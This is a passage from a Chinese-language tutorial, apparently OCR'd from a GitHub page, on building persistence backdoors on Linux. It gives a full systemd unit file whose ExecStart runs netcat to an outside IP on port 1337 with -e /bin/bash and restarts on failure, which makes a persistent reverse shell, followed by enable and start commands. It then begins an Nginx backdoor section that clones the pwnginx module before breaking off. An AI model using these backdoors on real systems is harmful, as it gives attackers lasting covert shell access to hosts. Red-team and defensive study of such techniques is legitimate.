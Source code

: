 完成service脚本编写后，需要执行以下命令以重载生效：

```
# 重新加载所有的systemd服务
systemctl daemon-reload

# 管理服务 [使能开启启动|启动|停止|重启|查看状态]
sudo systemctl [enable|start|stop|restart|status] xxx.service
```

一个服务设置为开机启动使用会将 /usr/lib/systemd/system/name.service 软链接到 /etc/systemd/system/ ，但是 enable 命令不会重写已经存在的链接，所以当我们修改了服务文件就需要重新加载：systemctl reenable name.service



### 2.2 构造System后门

```
[root@vuln systemd]# vim /usr/lib/systemd/system/shadowtest.service
```

```
[Unit]
Description=ShadowTestx

[Service]
ExecStart=/usr/bin/netcat 172.16.42.1 1337 -e /bin/bash
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```

```
[root@vuln systemd]# systemctl enable shadowtest
[root@vuln systemd]# systemctl start shadowtest
```



## 3. Nginx后门

### 3.1 nginx模块后门

查看当前nginx服务版本

```
[root@vuln module]# nginx -V
nginx version: nginx/1.14.2
......
```

下载pwnginx

```
git clone https://github.com/t57root/pwnginx.git
```
